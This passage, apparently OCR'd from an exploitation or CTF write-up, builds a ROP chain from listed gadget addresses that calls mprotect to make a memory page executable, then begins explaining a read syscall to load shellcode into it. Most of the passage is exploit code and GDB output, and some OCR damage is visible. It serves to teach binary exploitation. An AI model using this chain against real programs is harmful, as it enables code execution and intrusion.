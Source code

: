         python
        eax0 = 0x000000000045b900  mov eax, 0; ret;
        inc2rax = 0x0000000000419963  add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;
        poprdx = 0x000000000040830c  pop rdx; adc al, 0xf6; ret;
        poprsi = 0x0000000000415574  pop rsi; adc al, 0xf6; ret;
        syscall = 0x000000000045d329  syscall; ret;
        poprax = 0x000000000040deac  pop rax; or dh, dh; ret;
        poprdi = 0x000000000040eb97  pop rdi; dec dword ptr [rax + 0x21]; ret;

        addresses
        buf = 0x00551000  use vmmap in GDB to find it
        dummy = 0x00567000  heap

        padding
        payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"

        mark memory page at buf rwx
        payload += p64(poprax)  sete in poprdi mitigation
        payload += p64(dummy)
        payload += p64(poprdi)  1ST ARGUMENT
        payload += p64(buf)  ADDRESS
        payload += p64(poprsi)  2ND ARGUMENT
        payload += p64(0x100)  SIZE
        payload += p64(poprdx)  3RD ARGUMENT
        payload += p64(0x7)  RWX
        payload += p64(eax0)  SET RAX = 0
        payload += p64(inc2rax) * 5  SET RAX = 10
        payload += p64(syscall)  SYSCALL


        Executing the program with this input will mark the memory page with RWX permissions. We can verify this in GDB using
        the vmmap command:

        gdb
        gdb-peda vmmap
        Start              End                Perm	Name
        [...]
        0x00551000         0x00567000         rwxp	main
        [...]



        **Step 2: Write shell code into the page**

        To read in the shell code, we use the read syscall. Its documentation states the following:

        c
        ssizet read(int fd, void *buf, sizet count);

        read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.


        We can use the same technique to spawn the syscall as above. The syscall table shows that this time we need to call
        the syscall with number 0. The file descriptor for standard input also has the number 0. Thus, we need to create the
        following register situation:

